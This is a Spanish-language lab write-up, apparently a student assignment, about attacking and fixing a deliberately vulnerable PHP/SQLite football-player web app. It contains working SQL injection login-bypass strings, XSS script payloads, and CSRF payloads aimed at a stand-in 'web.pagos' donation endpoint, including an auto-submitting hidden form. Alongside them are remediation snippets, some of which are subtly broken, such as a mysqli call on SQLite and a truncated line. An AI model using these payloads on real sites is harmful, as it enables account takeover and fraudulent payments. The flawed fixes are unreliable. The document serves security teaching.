

# Parte 1 - SQLi

- a) Comprobamos que en el directorio de /insert_player.php# nos aparece los campos `user` y `password`. Al meter en el campo de user ' " ' . Al ejecutar este comando nos salta el siguiente error:  


| Preguntas | Solución |
| --- | --- |
| Escribo los valores... | "   |
| En el campo... | User |
| Del formulario de la página... | /insert_player.php# |
| La consulta SQL que se ejecuta es... | SELECT userId, password FROM users WHERE username = """ |
| Campos del formulario web utilizados en la consulta SQL | User |
| Campos del formulario web no utilizados en la consulta SQL | Password |

- b) Ahora que sabemos que el formulario es vulnerable probamos a realizar una inyección SQL en el usuario con las contraseñas que dan. Probaremos a insertar en el campo de User el payload `" OR password="<contraseña>"-- -` y 

| Preguntas | Solución |
|------------------------|----------------------------------|  
| | El ataque consiste en repetir |  
| Explicación del ataque | inyecciones SQL |  
| | … utilizando en cada interacción una contraseña diferente del diccionario |  
| Campo de usuario con que el ataque ha tenido éxito |  " OR password="1234"-- - |  
| Campo de contraseña con que el ataque ha tenido éxito | 1234 |

- c)

| Preguntas | Solución |
|------------------------|----------------------------------|  
| Explicación del error |  Dentro de la función `areUserAndPasswordValid` hemos encontrado varias errores. Aún usando la función anterior esta no previene contra inyección SQL debido a que podemos modificar las consultas. Para ello lo que vamos a utilizar son consultas preparadas para evitar las inyecciones |  

Es por ello que esta parte del código la cambiaremos:   
```php
$query = SQLite3::escapeString('SELECT userId, password FROM users WHERE username = "' . $user . '"');
$result = $db->query($query) or die ("Invalid query: " . $query . ". Field user introduced is: " . $user);
$row = $result->fetchArray();
```

 ... por la siguiente linea:

```php
$stmt = $db->prepare('SELECT userId, password FROM users WHERE username = :username');
$stmt->bindValue(':username', $user, SQLITE3_TEXT);
$result = $stmt->execute() or die ("Invalid query");
$row = $result->fetchArray();
```


- d) En este apartado tras hacer un estudio del código fuente del archivo encontrado `add\_comment.php~` hemos encontrado 2 vulnerabilidades en el código.

- Inyección SQL:

Como en el apartado anterior podemos comprobar que se utiliza la función `SQLite3::escapeString`, pero esta función no protege contra inyección SQL debido a que los atacantes pueden modificar consultas. 
```php
$query = "INSERT INTO comments (playerId, userId, body) VALUES ('".$_GET['id']."', '".$_COOKIE['userId']."', '$body')";
```

Es por ello que usaremos `prepared` para prevenir de estas inyecciones SQL.

```php
$stmt = $db->prepare("INSERT INTO comments (playerId, userId, body) VALUES (:playerId, :userId, :body)");
$stmt->bindValue(':playerId', $_GET['id'], SQLITE3_INTEGER);
$stmt->bindValue(':userId', $_COOKIE['userId'], SQLITE3_INTEGER);
$stmt->bindValue(':body', $body, SQLITE3_TEXT);
$stmt->execute();
```

- XSS

Usaremos el parámetro `htmlspecialchars()` para limpiar la entrada del usuario de caracteres especiales como >, < , ', ". Así evitaremos ataques XSS.

```php
echo htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8');
```

# Parte 2 - XSS

a) 

| Preguntas | Solución |
|------------------------|----------------------------------|  
| Introduzco el mensaje ...|  \<script>alert('Test')</script>|  
| En el formulario de la página ... |  http://localhost:8080/add_comment.php?id=3 |  




- b)
Para que el link funcione correctamente ya que el navegador puede confundir y pensar que & forma parte del código del enlace. Añadiendo &amp el navegador sabe que esto significa & por lo que lo convierte y el enlace si funcionaría.
Esto se utiliza principalmente para asegurar el correcto funcionamiento del enlace.

- c)

Hay 2 problemas que he encontrado relacionados con XSS e inyecciones SQL.

- XSS
Hace falta sanitizar la entrada de datos en `$username` y `$body` con `htmlspecialchars`
```php
$username = htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8');
$body = htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8 
```

- SQL inyection

Como hemos dicho en otros apartados los códigos no están protegidos contra inyección SQL.  Para ello vamos a usaremos consultas con `prepare`. 

Sustituiremos el siguiente código: 
```php
$query = "SELECT commentId, username, body FROM comments C, users U WHERE C.playerId =".$_GET['id']." AND U.userId = C.userId order by C.playerId desc";
$result = $db->query($query) or die("Invalid query: " . $query );
```

Y lo pasamos a:

```php
$playerId = $_GET['id'];
$stmt = $db->prepare("SELECT commentId, username, body FROM comments C, users U WHERE C.playerId = :playerId AND U.userId = C.userId ORDER BY C.playerId DESC");
$stmt->bindValue(':playerId', $playerId, SQLITE3_INTEGER);
$result = $stmt->execute() or die("Invalid query");
```


d)
| Otras páginas afectadas ... | /insert_player.php |
| - | -|
| ¿Cómo lo he descubierto? | Comprobando el código fuente de cada uno de los php a los que podiamos acceder, nos dimos cuenta que también contenia vulnerabilidad a XSS |


# Parte 3 - Control de acceso, autenticación y sesiones de usuarios

- a)

Medidas para `register.php`: 
- Hash de la contraseña: revisando el código vemos que el código guarda las contraseñas de los registros en texto plano. Esto es una actividad muy peligrosa debido a que pueden ser faciles de optener. Para ello es mejor guardarlas hasheadas por lo que editariamos el código para implementar dicha función. Cambiaremos esta función: 
	```php
	$password = SQLite3::escapeString($password);
	```

	Por esta:

	```php
	$hashed_password = password_hash($password, PASSWORD_DEFAULT);
	```

- Inyección SQL:  para evitar inyección SQL en el código tendremos que hacer uso de consultas con `prepare`. Cambiaremos esta parte del código:
	```php
	if (isset($_GET['id']))
	    $query = "INSERT OR REPLACE INTO players (playerid, name, team) VALUES ('".$_GET['id']."','$name', '$team')";
	else
	    $query = "INSERT INTO players (name, team) VALUES ('$name', '$team')";
	$db->query($query) or die("Invalid query");
	```

   Por este:

	```php
	if (isset($_GET['id'])) {
	    $stmt = $db->prepare("INSERT OR REPLACE INTO players (playerid, name, team) VALUES (?, ?, ?)");
	    $stmt->bind_param('iss', $_GET['id'], $name, $team);
	} else {
	    $stmt = $db->prepare("INSERT INTO players (name, team) VALUES (?, ?)");
	    $stmt->bind_param('ss', $name, $team);
	}
	
	$stmt->execute() or die("Invalid query");
	```

- b)

En el códgio hemos encontrados algunos puntos que se puede aplicar para aumentar la seguridad: 

- Verificación de contraseña: la cotraseña se deberia de verificar. Para ello se podría usar funciones como `password_verify()` para corroborar que la contraseña insertada es la misma que la que está almacenada en la base de datos.

- Inyección SQL: haremos uso de consultas preparadas con `prepare` para evitar posibles inyecciones SQL a las consultas.

c) 
Las opciones que podemos hacer para asegurar el `register.php` son:

- Verificación: si el usuario no esta logueado o verificado no podrá acceder a esta página con lo que evitaremos que personas no autorizadas o registradas creen usuarios en la base de datos.

- Crear algún metodo de validación de los usuarios como confirmación por correo del administrador. Esto evita que si acceden y crean un usuario tenga que ser validado para poder ser utilizado. 

- d)

¿Se cumple esta condición?

Como podemos comprobar si intentamos acceder a la URL nos sale un Forbidden por lo que de forma local no tendríamos acceso a dicha carpeta a través del navegador. 


En el hipotético caso de que si se pudiese entrar habría que modificar los permisos de los directorios del servicio donde este alojada nuestra aplicación como puede ser apache o nginx. 

- e)

En el apartado b de la parte 1 suplantamos la identidad de un usuario (luis). Por lo que no estaba asegurada correctamente. La mejor opción para evitar esto sería implementar una función de generación y validación de tokens (CSRF).  

```php
if (empty($_SESSION['csrf_token'])) {
    $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
# On logout
if (isset($_POST['Logout'])) {
    # Verificar que el token este presente
    if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        die('El token csrf es inválido o no está presente');
    }
```


# Parte 4 - Servidores web

Para reducir el riesgos de ataques podríamos implementar algunas medidas de seguridad en el servidor web. 

Habilitar la conexiones seguras de HTTPS a través del puerto 443 para acceder de forma segura con certificaciones. 

Creación de un firewall el cuál  filtre posible trafico indeseado o rangos de IPs indeseadas, nos proteja contra posibles ataques de denegación de servicio y permitir solo tráfico HTTPS. 

También se podría administrar los permisos de los diferentes directorios del servidor para evitar accesos indeseados de usuarios a recursos que no deben estar accesibles. 

# Parte 5 - CSRF

- a)

Para realizar esta tarea insertaremos un botón con código HTML en el campo `Team name` del `insert_player.php` insertaremos el siguiente código: 
```html
<button><a href="http://web.pagos/donate.php?amount=100&receiver=attacker">Profile </a></button>
```


Vemos que si enviamos la consulta y nos vamos a la lista de jugadores nos sale el botón: 


- b)

| Pregunta|Respuesta|
|-|-|
|En el campo|Comentario|
|Introduzco|\<script>window.location.href = "http://web.pagos/donate.php?amount=100&receiver=attacker";\</script>|

- c)

Para que esto funcione el usuario tendría que darle al botón malicioso o cargar el comentario malicioso y a parte tener que estar registrasdo en web.pagos debido a que la solicitud incluirá una cookie de la sesión usuario  para proceder el pago. 

- d)

Aunque POST sea más seguro que GET para enviar los datos, esto no caparia del todo que atacantes pudiesen hacer un ataque de CSRF.  Esto se debe a que los atacantes podrían crear formularios con código malicioso el cuál envie datos a través del POST a web.pages sin que los usuarios se den cuenta. 

```html
<form id="formulario" action="http://web.pagos/donate.php" method="POST">
  <input type="hidden" name="amount" value="100">
  <input type="hidden" name="receiver" value="ataque">
</form>
<script>
  document.getElementById('formulario').submit();
</script>
```
